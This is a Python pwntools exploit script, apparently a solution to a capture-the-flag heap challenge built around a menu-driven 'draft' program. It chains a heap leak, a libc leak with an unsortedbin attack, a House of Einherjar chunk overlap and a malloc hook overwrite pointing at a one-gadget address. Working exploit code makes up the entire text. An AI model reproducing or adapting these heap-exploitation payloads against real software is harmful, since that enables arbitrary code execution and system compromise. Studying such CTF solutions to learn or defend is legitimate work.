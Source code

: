 ```python
    menu(2)
    if line:
        r.sendlineafter("Enter draft title: ",title)
    else:
        r.sendafter("Enter draft title: ",title)
    r.sendlineafter("Enter size of draft: ",str(size))
    r.sendlineafter("Give your feedback: ",feedback)

def view():
    menu(3)

def create():
    menu(4)

def save():

    ''' libc leak + unsortedbin attack '''

    menu(5)
    r.sendlineafter("Enter draft id to save: ",'1')
    r.sendafter("Enter Team Name and Details: ","A"*0x350)
    r.recvuntil("Team: "+("A"*350))
    libc.address=u64(r.recvuntil('\n').strip().replace("A",'').ljust(8,'\x00'))-0x3c4b78#-0x3c1b58
    log.info("libc @ "+hex(libc.address))
    r.sendlineafter("Confirm? <y/n>: ",'n')
    r.sendafter("Enter Team Name and Details: ","A"*0x340+p64(0)+p64(0x51))
    r.sendlineafter("Confirm? <y/n>: ",'y')
    r.sendlineafter("Now give us your contact details: ",p64(0)+p64(libc.address+0x3c4910))


def terminate():

    ''' overwrite malloc hook '''

    r.recvuntil("Enter this captcha code: ")
    captcha=r.recvuntil('\n').strip()
    r.sendline(captcha+'\x00'+p64(libc.address+0x3c6790)+p64(-1,signed=True)+p64(0)+p64(libc.address+0x3c49c0)+p64(0)*6+p64(libc.address+0x3c36e0)+"A"*0x150+p64(libc.address+0xf0274))


def getleak():

    ''' Heap Leak '''

    add_draft("A"*32,-1,"AA",line=False)
    view()
    r.recvuntil("Title: "+"A"*32)
    r.recv(8)
    heap=u64(r.recvuntil('\n').strip().ljust(8,'\x00'))-0x10
    log.info("heap @ "+hex(heap))

    ''' House of Einherjar '''

    add_draft("A",0x3c8,"B"*0x340+p64(0)+p64(0x1a1)+p64(heap+0x860)*4)
    add_draft("A",0x80,"A")
    leave_name("A")
    create()
    add_draft("A",0x100,p64(0x21)*20)
    leave_name("A"*128+p64(0x1a0)+'\x30',line=False)

    save()

    terminate()
```